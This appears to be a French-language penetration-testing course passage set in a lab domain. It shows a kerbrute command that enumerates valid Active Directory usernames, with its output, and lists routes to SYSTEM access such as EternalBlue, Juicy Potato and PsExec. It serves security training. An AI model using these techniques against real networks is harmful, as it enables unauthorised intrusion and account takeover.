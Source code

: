 #### Énumération des utilisateurs avec Kerbrute

  Énumération des utilisateurs avec Kerbrute

```
dsgsec@htb[/htb]$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users

2021/11/17 23:01:46 >  Using KDC(s):
2021/11/17 23:01:46 >   172.16.5.5:88
2021/11/17 23:01:46 >  [+] VALID USERNAME:       jjones@INLANEFREIGHT.LOCAL
2021/11/17 23:01:46 >  [+] VALID USERNAME:       sbrown@INLANEFREIGHT.LOCAL
2021/11/17 23:01:46 >  [+] VALID USERNAME:       tjohnson@INLANEFREIGHT.LOCAL
2021/11/17 23:01:50 >  [+] VALID USERNAME:       evalentin@INLANEFREIGHT.LOCAL

 <SNIP>

2021/11/17 23:01:51 >  [+] VALID USERNAME:       sgage@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       jshay@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       jhermann@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       whouse@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       emercer@INLANEFREIGHT.LOCAL
2021/11/17 23:01:52 >  [+] VALID USERNAME:       wshepherd@INLANEFREIGHT.LOCAL
2021/11/17 23:01:56 >  Done! Tested 48705 usernames (56 valid) in 9.940 seconds

```

Nous pouvons voir à partir de notre sortie que nous avons validé 56 utilisateurs dans le domaine INLANEFREIGHT.LOCAL et cela n'a pris que quelques secondes pour le faire. Nous pouvons maintenant prendre ces résultats et créer une liste à utiliser dans les attaques ciblées par pulvérisation de mot de passe.

* * * * *

Identification des vulnérabilités potentielles
----------------------------------------------

Le compte [système local](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account)`NT AUTHORITY\SYSTEM` est un compte intégré dans les systèmes d'exploitation Windows. Il a le plus haut niveau d'accès dans le système d'exploitation et est utilisé pour exécuter la plupart des services Windows. Il est également très courant que des services tiers s'exécutent par défaut dans le contexte de ce compte. Un `SYSTEM`compte sur un `domain-joined`hôte pourra énumérer Active Directory en se faisant passer pour le compte d'ordinateur, qui est essentiellement un autre type de compte d'utilisateur. Avoir un accès au niveau SYSTEM dans un environnement de domaine équivaut presque à avoir un compte d'utilisateur de domaine.

Il existe plusieurs façons d'obtenir un accès au niveau SYSTEM sur un hôte, y compris, mais sans s'y limiter :

-   Exploits Windows distants tels que MS08-067, EternalBlue ou BlueKeep.
-   Abus d'un service exécuté dans le contexte de `SYSTEM account`, ou abus des `SeImpersonate`privilèges du compte de service à l'aide de [Juicy Potato](https://github.com/ohpe/juicy-potato) . Ce type d'attaque est possible sur les anciens systèmes d'exploitation Windows, mais pas toujours possible avec Windows Server 2019.
-   Failles d'escalade de privilèges locaux dans les systèmes d'exploitation Windows tels que le planificateur de tâches Windows 10 0-day.
-   Obtenir un accès administrateur sur un hôte joint à un domaine avec un compte local et utiliser Psexec pour lancer une fenêtre SYSTEM cmd
